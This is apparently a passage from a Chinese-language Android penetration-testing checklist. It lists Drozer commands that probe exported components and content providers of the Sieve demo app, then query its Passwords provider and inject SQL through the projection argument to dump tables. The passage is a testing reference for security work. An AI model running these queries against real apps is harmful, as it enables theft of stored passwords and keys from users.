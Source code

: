 | *App逆向main_classify_list | https://android.fallible.co/                 | 链接挂掉了                 |
| *GES审计系统               | http://01hackcode.com/                       | 链接挂掉了                 |
| *金山火眼                  | http://fireeye.ijinshan.com/analyse.html     | 链接挂掉了                 |

## 测试工具清单

### Drozer测试

检查点

是否有暴露的组件攻击面

```
run app.package.attacksurface  apk
```

暴露的Activity组件进行攻击

```
run app.activity.info -a apk
```

启动组件信息检查

```
run app.activity.start –-component com.mwr.example.sieve com.mwr.example.sieve.FileSelectActivity
run app.activity.start –-component com.mwr.example.sieve com.mwr.example.sieve.MainLoginActivity
run app.activity.start –-component com.mwr.example.sieve com.mwr.example.sieve.PWList
```

获取Content Provider信息

```
run app.provider.info -a apk
```

获取所有可以访问的URI

```
run scanner.provider.finduris -a apk
```

获取各个URI的数据

```
run app.provider.query  content://com.mwr.example.sieve.DBContentProvider/Passwords
```

针对URI数据进行SQL注入尝试

```
run app.provider.query URI --projection "* FROM SQLITE_MASTER WHERE type='table';--"
```

针对URI获取表中数据

```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
```
